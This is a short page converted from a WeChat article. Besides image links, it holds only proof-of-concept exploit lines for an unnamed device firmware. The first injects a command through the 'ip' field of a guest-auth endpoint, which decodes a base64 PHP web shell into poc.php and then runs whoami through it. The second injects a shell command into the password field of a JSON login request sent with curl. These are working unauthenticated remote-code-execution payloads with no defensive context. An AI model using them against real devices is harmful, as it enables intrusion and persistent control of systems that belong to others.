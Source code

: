 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/hFQeIXNNWG158NJUAjuUEg)

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3ibbpIgdsiccJb6iaTI8IQvBAFwB7rzTpcPTlDLqgfbhGhvTZ4wb0oDbe1kxY1znreVYZGXGU8X2UcA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

echo "PD9waHAKJGNtZD0kX0dFVFsnY21kJ107CnN5c3RlbSgkY21kKTsKPz4K" | base64 -d POC: POST /guest_auth/guestIsUp.php ip=127.0.0.1|echo "PD9waHAKJGNtZD0kX0dFVFsnY21kJ107CnN5c3RlbSgkY21kKTsKPz4K"|base64 -d > poc.php&mac=00-00 GET /guest_auth/poc.php?cmd=whoami

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3ibbpIgdsiccJb6iaTI8IQvBA8ToeuBMbg9BplZxibrzkSfbeN6je8rsQmappzjMcdQArBEC7Px0OV7Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

  

Another unauthorized RCE in same firmware PoC: curl http://host/openApi/devConfig.php?a=login -X POST -d "{\"admin\":\"admin\",\"encry\":true,\"password\":\"1'; COMMAND ;echo 'a\"}"

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3ibbpIgdsiccJb6iaTI8IQvBAsZyk8GkibtbfbeaoUuvwopE18gaq1BqOdRwt8vMP5E4LNURw95g6PPQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)